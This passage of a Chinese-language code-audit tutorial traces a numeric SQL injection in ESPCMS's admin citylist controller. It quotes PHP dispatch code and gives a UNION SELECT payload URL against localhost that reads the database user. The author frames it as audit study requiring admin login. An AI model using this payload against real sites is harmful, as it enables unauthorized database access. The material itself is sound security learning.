 在citylistphp文件可用看到SQL语句在oncitylist()函数中，同时该函数又在important类中，右键选中该类名进行全局搜索。可以发现在index.php有实例化的类。

```php
$point = indexget('point', 'R'); //获取过滤后的point
$point = empty($point) ? 'admin' : $point;
$archive = indexget('archive', 'R'); //获取过滤后的$archive
$archive = empty($archive) ? 'adminuser' : $archive;
$action = indexget('action', 'R');//获取过滤后的action
$action = empty($action) ? 'login' : $action;
$soft_MOD = array('admin', 'public', 'product', 'forum', 'filemanage', 'basebook', 'member', 'order', 'other', 'news', 'inc', 'cache', 'bann', 'logs', 'template');
if (in_array($point, $soft_MOD)) {
	include admin_ROOT . adminfile . "/control/$archive.php";
	$control = new important();
	$action = 'on' . $action;
	if (method_exists($control, $action)) {
		$control->$action();
	} else {
		exit('错误：系统方法错误！');
	}
```

indexget函数跟accept函数功能是一样的。

### 漏洞触发

开头SQL语句位于`oncitylist()`函数，该函数时`important`类的成员函数，其所在文件为`/adminsoft/control/citylist.php`,因此上面文件包含我们先要包含这个文件，即`$archive=citylist`。

$archive 变量的取值范围是 /adminsoft/control 下的文件名，默认为 adminuser。
$action 变量的值，在其前加上 on 就是上述文件里的函数名，默认为 login。



payload如下：
```payload
http://127.0.0.1/adminsoft/index.php?archive=citylist&action=citylist&parentid=-1%20union%20select%201,2,user(),4,5
```

![image](./img/espcms3.png)

黑盒测试发现得先需要登录后台才能利用，实战中并没有多大利用，就当代码审计学习了。
### Resource
https://6xian.github.io/2018/04/22/codes-audit-basic-espcms-numeric-sqli/

https://www.codenong.com/cs107094320/


## 通读全文代码
